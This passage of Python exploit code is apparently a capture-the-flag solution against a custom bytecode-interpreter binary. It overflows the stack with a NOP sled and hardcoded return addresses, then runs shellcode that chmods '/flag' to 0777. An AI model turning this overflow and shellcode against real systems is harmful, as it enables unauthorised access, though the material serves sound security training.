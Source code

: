 ```python
    JMP = b'\x10'
    LDM = b'\x20'
    STK = b'\x40'
    SYSCALL = b'\x80'

@dataclass
class Syscalls:
    READ_CODE = b'\x02'
    READ_MEM = b'\x04'
    WRITE = b'\x01'
    SLEEP = b'\x20'
    EXIT = b'\x08'


def syscall(number, out_reg):
    return number + out_reg + Opcodes.SYSCALL

def write_register(register, value):
    assert(value < 0x100)
    return register + value.to_bytes(1, 'little') + Opcodes.IMM

def read_stdin_to_memory(offset, count):
    buffer = b''
    buffer += write_register(Regs.a, value=0)  # stdin
    buffer += write_register(Regs.b, value=offset)
    buffer += write_register(Regs.c, value=count)
    buffer += syscall(Syscalls.READ_MEM, out_reg=Regs.a)
    return buffer

def read_junk(p, magic):
    while True:
        data = p.readline()
        print(data)
        if magic in data:
            break

def exploit():
    p = process(BINARY)
    # p = gdb.debug(BINARY, gdbscript=GDB_SCRIPT)

    bytes_count = 0xff
    buf_1 = b''
    buf_1 += read_stdin_to_memory(offset=0xf0, count=bytes_count)

    p.send(buf_1)

    # Cause termination of the interpreter loop by setting mem[1029] to 0xff.
    # Pad, and overwrite the return address back to the stack. 
    # Notice we jump right into the middle of our payload, at constant addr. 
    shellcode = b"\x48\xBB\x2F\x66\x6C\x61\x67\x00\x00\x00\x53\x48\xC7\xC0\x5A\x00\x00\x00\x48\x89\xE7\x48\xC7\xC6\x77\x07\x00\x00\x0F\x05"
    buf_2 = b'\x41' * 0x15 + b'\xff' + b'\x42' * 2 + struct.pack('<Q', 0x7fffffffe320) * 11
    payload = buf_2 + b'\x90' * (bytes_count - len(buf_2) - len(shellcode)) + shellcode 
    p.send(payload)

    p.interactive()

exploit()
```

